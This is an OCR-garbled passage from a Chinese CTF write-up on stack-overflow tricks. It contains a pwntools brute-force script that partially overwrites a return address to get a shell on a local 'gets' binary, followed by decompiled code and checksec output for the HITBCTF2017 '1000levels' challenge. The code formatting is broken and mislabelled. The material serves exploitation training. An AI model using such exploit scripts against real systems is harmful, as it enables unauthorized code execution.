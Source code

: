 ![Test](https://www.hetianlab.com/specialized/headImg.action?news=ae049e09-2ea3-4143-a7d4-4971a19aec22.png  '栈溢出技巧（下）') 
![Test](https://www.hetianlab.com/specialized/headImg.action?news=ae049e09-2ea3-4143-a7d4-4971a19aec22.png  '栈溢出技巧（下）') 
from pwn import * 
 
### context.arch = 'amd64' 
 
### context.log_level = 'debug' 
 
### context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c'] 
offset = 0x18 
while True: try: p = process('./gets') payload='a' * offset + p64(0x40059B) payload += 'b' * 8 * 5 + p64(0x40059B) + 'c' * 8 * 5 + p64(0x40059B) payload += 'c' * 8 * 5 + '\x06\xa3' 
 
### gdb.attach(p) 
 
 ```java 
      p.sendline(payload)
    p.sendline('ls')
    data = p.recv()
    print data
    p.interactive()
    p.close()
except Exception:
    p.close()
    continue



  ``` 
  
 
 ```java 
  这就需要耐心了，可能几十分钟都没结果（我跑了好久），然后去修改一下partial overwrite的值，将\x06\x03修改成\x06\xa3，一分钟左右就跑出来了。


# 题目三
HITBCTF2017中的1000levels题目，梳理流程，函数有点多



  ``` 
  
_BOOL8 __fastcall level(signed int a1){ __int64 v2; // rax __int64 buf; // rsp+10h __int64 v4; // rsp+18h __int64 v5; // rsp+20h __int64 v6; // rsp+28h unsigned int v7; // rsp+30h unsigned int v8; // rsp+34h unsigned int v9; // rsp+38h int i; // rsp+3Ch buf = 0LL; v4 = 0LL; v5 = 0LL; v6 = 0LL; if ( !a1 ) return 1LL; if ( (unsigned int)level(a1 - 1) == 0 ) return 0LL; v9 = rand() % a1; v8 = rand() % a1; v7 = v8 * v9; puts("===================================================="); printf("Level %d\n", (unsigned int)a1); printf("Question: %d * %d = ? Answer:", v9, v8); for ( i = read(0, &buf, 0x400uLL); i & 7; ++i ) *((_BYTE *)&buf + i) = 0; v2 = strtol((const char *)&buf, 0LL, 10); return v2 == v7;} 
pwn@pwn-PC:~/Desktop$ checksec 1000levels [*] '/home/pwn/Desktop/1000levels' Arch: amd64-64-little RELRO: Partial RELRO Stack: No canary found NX: NX enabled PIE: PIE enabled 
 